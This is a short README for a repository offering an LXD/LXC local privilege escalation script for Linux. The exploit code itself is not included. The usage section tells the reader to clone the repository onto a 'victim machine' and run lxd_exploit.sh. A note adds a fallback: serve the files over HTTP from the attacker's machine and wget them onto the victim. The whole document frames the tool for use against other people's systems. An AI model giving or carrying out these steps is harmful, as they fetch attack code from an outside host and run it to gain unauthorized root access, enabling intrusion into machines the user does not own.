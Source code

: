 # LXD/LXC Local Privilege Escalation

This script allows to vertically escalate privilege on linux machines with current user in group [lxd/lxc](https://linuxcontainers.org/lxd/) group.

## Usage

On victim machine clone the repository:
```
git clone https://github.com/lykan89/LXD-privilege-escalation.git
```

Running the exploit:
```
cd LXD-privilege-escalation
chmod +x lxd_exploit.sh
./lxd_exploit.sh
```

## Note:
> If the `git clone` doesn't work on victim machine, Clone the repository on the local machine and host the folder via HTTP and `wget` it.

## License
This script uses MIT License
